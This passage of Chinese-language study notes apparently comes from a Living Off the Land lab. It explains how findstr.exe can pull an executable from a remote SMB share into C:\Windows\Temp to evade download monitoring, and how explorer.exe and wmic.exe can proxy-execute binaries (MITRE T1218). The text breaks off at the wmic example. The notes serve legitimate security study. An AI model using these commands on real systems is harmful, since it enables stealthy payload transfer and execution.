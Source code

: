 ##### 3. FindStr (`findstr.exe`)

- **合法用途**: `findstr.exe` 是微软自带的命令行工具，用于在文件中搜索文本字符串和模式（支持正则表达式）。它对用户和系统管理员在文件中查找内容或解析命令输出非常有用。例如，检查特定端口是否开放：`netstat -an | findstr "445"`。
- **恶意滥用 (非预期功能)**: 有研究发现 `findstr.exe` 可以被用来从网络中的 SMB 共享文件夹下载远程文件。这是一种不常见的、非预期的文件传输方法。 **下载命令示例**:
    
    DOS
    
    ```
    C:\Users\thm> findstr /V /M "dummystringthatshouldnotexist" \\<MachineName_Or_IP>\ShareFolder\remote_file.exe > C:\Windows\Temp\local_copy.exe
    ```
    
    - `/V`: 打印不包含匹配项的行。
    - `/M`: 如果文件包含匹配项，则只打印文件名。（这里可能是利用其读取远程文件的能力，结合 `/V` 和一个不存在的字符串，使其尝试读取整个文件内容，然后通过重定向 `>` 保存）。
    - `"dummystringthatshouldnotexist"`: 一个在目标文件中几乎不可能存在的搜索字符串。
    - `\\<MachineName_Or_IP>\ShareFolder\remote_file.exe`: 远程 SMB 路径下的文件。
    - `> C:\Windows\Temp\local_copy.exe`: 将 `findstr` 的输出（理论上是文件的内容，因为没有行包含那个“虚拟”字符串，但 `/V` 和 `/M` 的组合行为可能比较特殊，更常见的 SMB 文件复制是使用 `copy` 或 `robocopy`）重定向到本地文件。
    - **注意**: 原文使用 `findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe`。这种方法依赖于 `findstr` 能够访问并读取远程 SMB 文件。如果 `/V` 配合一个不存在的字符串，它理论上会输出所有行。然而，直接用 `findstr` 下载二进制文件可能不是最可靠的方式，且可能损坏文件，但它确实是一个已知的、被提及的 LOL 技术，用于规避某些只监控常见下载工具（如 `bitsadmin`, `certutil`）的检测。

---

#### 文件执行：利用原生工具进行代理执行 (File Execution: Using Native Tools for Proxy Execution)

通常情况下，执行二进制文件涉及直接从命令行 (`cmd.exe`, `powershell.exe`) 调用或双击桌面图标等已知方法。然而，通过滥用其他合法的系统二进制文件作为“代理”来间接执行有效载荷，可以达到隐藏真实执行源、混淆父子进程关系或利用受信任进程的权限等目的。根据 MITRE ATT&CK 框架，这种技术通常被称为 **T1218 - Signed Binary Proxy Execution** 或 **间接命令执行 (Indirect Command Execution)**。这种技术也有助于规避某些基于父进程或命令行参数的防御控制。

##### 1. 文件资源管理器 (`explorer.exe`)

- **合法用途**: `explorer.exe` 是 Windows 的文件管理器和 Shell 用户界面组件。
- **恶意滥用**: `explorer.exe` 可以被用来间接执行其他 `.exe` 文件。这种技术可以使恶意可执行文件似乎是从一个受信任的父进程 (`explorer.exe`) 中启动的。
    - **路径**:
        - 64位 Windows: `C:\Windows\explorer.exe`
        - 32位 Windows (或 64位 Windows 上的 32位版本，但主要指前者): `C:\Windows\SysWOW64\explorer.exe` (注意：SysWOW64 下的是32位版本，用于在64位系统上运行32位程序。System32 下的才是对应系统位数的版本。因此，在64位系统上，`C:\Windows\explorer.exe` 是64位的，`C:\Windows\SysWOW64\explorer.exe` 是32位的。笔记原文此处表述可能需 уточнение).
    - **执行命令示例**:
        
        DOS
        
        ```
        C:\Users\thm> explorer.exe /root,"C:\Windows\System32\calc.exe"
        ```
        
        这个命令会尝试以 `explorer.exe` 作为父进程来启动 `calc.exe`。`/root,` 参数通常用于指定 `explorer.exe` 打开特定文件夹视图的根，但当后面跟的是可执行文件路径时，可能触发执行。

##### 2. WMIC (`wmic.exe`)

- **合法用途**: Windows Management Instrumentation Command-line (WMIC) 是一个用于与 Windows Management Instrumentation (WMI) 进行交互的命令行工具，允许管理员查询系统信息、管理 Windows 组件等。
- **恶意滥用**: `wmic.exe` 的 `process call create` 方法可以被用来创建新进程，从而执行二进制文件。这可以作为一种规避某些基于直接命令行执行检测的防御措施的方法。此技术属于 **MITRE ATT&CK T1218 - Signed Binary Proxy Execution**。
    - **执行命令示例**:
        